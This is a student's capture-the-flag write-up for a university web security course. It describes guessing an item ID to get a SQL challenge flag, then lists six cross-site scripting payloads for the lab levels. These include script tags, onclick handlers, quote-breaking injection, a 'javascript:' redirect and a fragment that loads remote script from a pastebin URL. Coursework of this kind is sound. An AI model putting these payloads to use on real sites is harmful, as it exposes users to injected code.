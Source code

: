 Writeup 14 - Web II
=====

Name: Andrew Chalfant
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Andrew Chalfant

## Assignment 10 Writeup

### Part 1 (40 Pts)
For the site, I noticed the url was using sql syntax to retrieve data based on a specific user id. I played around with a couple different options such as trying to escape the input for the item and execute another SQL expression. In the end I found that simply bruteforcing different possible IDs work, and I eventually guessed an item ID of 1337 to get the flag CMSC38R-{y0U-are_the-5ql-n1nja}

### Part 2 (60 Pts)
1. Input "<script>alert();</script>" into search bar
2. Input <button onclick=alert();>Hello</button> into blog post
3. Input /frame#3' onclick='alert()''; into URL
4. Input ');alert();var b=(' into input
5. Input ?next=javascript:alert(); into URL
6. Input frame#hTtps://pastebin.com/raw/A2RXb4GF
